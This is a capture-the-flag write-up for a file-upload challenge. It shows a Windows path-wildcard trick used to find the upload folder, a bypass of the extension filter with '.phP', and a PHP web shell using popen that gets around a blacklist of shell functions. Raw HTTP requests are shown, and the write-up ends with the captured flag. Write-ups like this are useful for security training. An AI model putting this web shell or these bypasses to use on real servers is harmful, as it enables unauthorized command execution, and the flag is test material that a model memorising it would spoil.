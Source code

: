 # Upload Challenge
Here is what we got when click in challenge URL
```
<head>
 <title>Where Path~?</title>
</head>
	<form action="upload.php" method="post" enctype="multipart/form-data">  
        <input type="file" name="file" value="up"/>  
        <input type="submit" value="upload" name="submit" />  
    </form>  
	<!--pic.php?filename=default.jpg-->
```

# Walk around
First I will view the source code to check if there's something strange. Here's what I got:
```
<head>
 <title>Where Path~?</title>
</head>
	<form action="upload.php" method="post" enctype="multipart/form-data">  
        <input type="file" name="file" value="up"/>  
        <input type="submit" value="upload" name="submit" />  
    </form>  
	<!--pic.php?filename=default.jpg-->
```

There's a path, `width=497</br>height=477` => what I got when access path

I immediately think about put a shell by upload the file and I notice that host is `Windows` which have a bug
You can read more in here [Bug-Bug](http://www.madchat.fr/coding/php/secu/onsec.whitepaper-02.eng.pdf)

On windows, if we pass `<` it will be replaced by `*` which means it will match of any symbol.
We don't know where the uploaded file is stored, we can use this to find out that directory to access our shell.
First I will upload a picture, get name of it, use `Burpsuite to` find the path

```
GET /pic.php?filename=../8%3C/1523584203.png HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/7.0
X-Powered-By: PHP/5.6.35
Date: Sat, 14 Apr 2018 12:07:47 GMT
Connection: close
Content-Length: 26

width=2560</br>height=1440

```

If it return `width=...</br>height=...`, that means I'm right, continue one by one and I got the final path is
`87194F13726AF7CEE27BA2CFE97B60DF`

I upload the `php` file, it will block but you can bypass it by `phP`.
First `phP` file contents: `<?php phpinfo(); ?>`
There's a blacklist

```
assert,passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,ini_alter,ini_alter,ini_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,fsocket,fsockopen
```

But we can you this payload for our `phP` file:

```
<?php
$handle = popen($_GET['a'], 'r'); 
echo $handle;
$read = fread($handle, 2096);
echo $read;
?>
```

then 
```
GET /87194F13726AF7CEE27BA2CFE97B60DF/1523704103.phP?a=type%20..\flag.php HTTP/1.1
Host: 47.90.97.18:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/7.0
X-Powered-By: PHP/5.6.35
Date: Sat, 14 Apr 2018 12:05:11 GMT
Connection: close
Content-Length: 84

Resource id #2<?php
echo "flag is here";
//HITB{e5f476c1e4c6dc66278db95f0b5a228a}
?>
```

# Flag HITB{e5f476c1e4c6dc66278db95f0b5a228a}